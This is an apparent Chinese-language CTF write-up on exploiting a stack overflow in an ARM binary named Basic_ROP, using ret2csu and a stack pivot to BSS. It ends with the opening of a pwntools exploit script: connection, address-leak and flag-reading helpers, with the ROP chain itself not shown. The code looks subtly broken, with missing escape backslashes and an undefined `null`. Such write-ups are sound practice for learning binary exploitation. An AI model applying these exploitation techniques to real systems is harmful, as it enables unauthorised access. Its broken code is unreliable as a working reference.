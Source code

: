程序为ARM-32-dynamically linked程序。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-17-121431.png)

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-17-121529.png)

此处明显存在栈溢出，因为a1的值没有限定长度，但是程序中没有合适的gadget可供利用，因此还是利用ret2csu来进行利用。

首先通过调试可以确定劫持返回地址的位置。(`payload = 'x41' * 0x44 + 'BBBB'`)

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-18-012935.png)

padding确定之后就开始寻找程序中可能存在的gadget

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-18-020120.png)

发现只有控制R3的较为方便的指针，接下来发现main函数中可以利用R3寄存器间接控制R1寄存器实现任意地址写，以及间接控制R0寄存器。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-18-061903.png)

那么我们的思路就是利用**栈迁移**，将栈迁移到BSS段实现利用。

#### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import sys
context.log_level='debug'
context.arch='arm'

Basic_ROP=ELF('./Basic_ROP', checksec = False)

libc=ELF("/usr/arm-linux-gnueabihf/lib/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
    elif False:
        sh = process(["qemu-arm", "-g", "2333", "-L", "/usr/arm-linux-gnueabihf", "./Basic_ROP"])
        log.info('Please use GDB remote!(Enter to continue)')
        raw_input()
        return sh
    else :
        return process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./Basic_ROP"])

def get_address(sh,arch_num=null,info=null,start_string=null,end_string=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif arch_num == 64:
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

```